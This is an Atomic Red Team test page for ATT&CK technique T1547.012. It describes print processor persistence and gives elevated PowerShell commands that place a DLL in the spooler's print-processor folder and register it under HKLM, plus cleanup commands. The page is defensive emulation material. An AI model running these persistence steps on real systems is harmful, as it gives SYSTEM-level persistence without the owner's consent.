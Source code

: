 # T1547.012 - Boot or Logon Autostart Execution: Print Processors
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/012)
<blockquote>

Adversaries may abuse print processors to run malicious DLLs during system boot for persistence and/or privilege escalation. Print processors are DLLs that are loaded by the print spooler service, `spoolsv.exe`, during boot.(Citation: Microsoft Intro Print Processors)

Adversaries may abuse the print spooler service by adding print processors that load malicious DLLs at startup. A print processor can be installed through the <code>AddPrintProcessor</code> API call with an account that has <code>SeLoadDriverPrivilege</code> enabled. Alternatively, a print processor can be registered to the print spooler service by adding the <code>HKLM\SYSTEM\\[CurrentControlSet or ControlSet001]\Control\Print\Environments\\[Windows architecture: e.g., Windows x64]\Print Processors\\[user defined]\Driver</code> Registry key that points to the DLL.

For the malicious print processor to be correctly installed, the payload must be located in the dedicated system print-processor directory, that can be found with the <code>GetPrintProcessorDirectory</code> API call, or referenced via a relative path from this directory.(Citation: Microsoft AddPrintProcessor May 2018) After the print processors are installed, the print spooler service, which starts during boot, must be restarted in order for them to run.(Citation: ESET PipeMon May 2020)

The print spooler service runs under SYSTEM level permissions, therefore print processors installed by an adversary may run under elevated privileges.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Print Processors](#atomic-test-1---print-processors)


<br/>

## Atomic Test #1 - Print Processors
Establishes persistence by creating a new print processor registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors.
The new print processor will point to a DLL which will be loaded by the spooler service after a reboot. The DLL will then create the file AtomicTest.txt in C:\Users\Public\ as validation that the test is successful.

Note: The test assumes a x64 Windows operating system.

The payload source code is based on a blog post by stmxcsr: [https://stmxcsr.com/persistence/print-processor.html](https://stmxcsr.com/persistence/print-processor.html)

**Supported Platforms:** Windows


**auto_generated_guid:** f7d38f47-c61b-47cc-a59d-fc0368f47ed0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| restart | set to 1 if you want the computer to reboot as part of the test | integer | 0|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
if( $(get-service -Name spooler).StartType -eq "Disabled") {Set-Service -Name "spooler" -StartupType Automatic}
net stop spooler
Copy-Item "$PathToAtomicsFolder\T1547.012\bin\AtomicTest.dll" C:\Windows\System32\spool\prtprocs\x64\AtomicTest.dll
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors\AtomicRedTeam" /v "Driver" /d "AtomicTest.dll" /t REG_SZ /f
net start spooler
if(#{restart}){
  Restart-Computer
}
```

#### Cleanup Commands:
```powershell
net stop spooler
rm -force C:\Windows\System32\spool\prtprocs\x64\AtomicTest.dll -ErrorAction SilentlyContinue
rm -force C:\Users\Public\AtomicTest.txt -ErrorAction SilentlyContinue
remove-item "HKLM:\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors\AtomicRedTeam" -Force -ErrorAction SilentlyContinue
net start spooler
```





<br/>
